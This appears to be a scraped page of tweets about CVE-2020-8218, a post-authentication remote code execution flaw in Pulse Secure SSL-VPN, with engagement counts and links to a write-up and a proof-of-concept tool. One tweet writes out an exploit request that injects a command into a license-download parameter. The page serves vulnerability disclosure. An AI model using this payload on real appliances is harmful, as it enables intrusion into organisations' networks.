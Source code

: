 * https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>147</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1299964418256707586 _at 2020-08-30, 06:57:24_**
<blockquote>
Proof of concept tool to test for the existence of Pulse Secure RCE (CVE-2020-8218) https://t.co/wYv8IzMoFA
</blockquote>

* https://github.com//withdk//pulse-gosecure-rce-poc

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1299655751758221319 _at 2020-08-29, 10:30:52_**
<blockquote>
CVE-2020-8218 : Pulse Secure SSL-VPN post-auth RCE
Cc @chybeta

hxxps://x.x.x.x/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever -n '($x="ls /",system$x); #' -e /data/runtime/tmp/tt/setcookie.thtml.ttc

https://t.co/okL58FZVJU https://t.co/OGxySMF4SM
</blockquote>

* https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

<table><tr>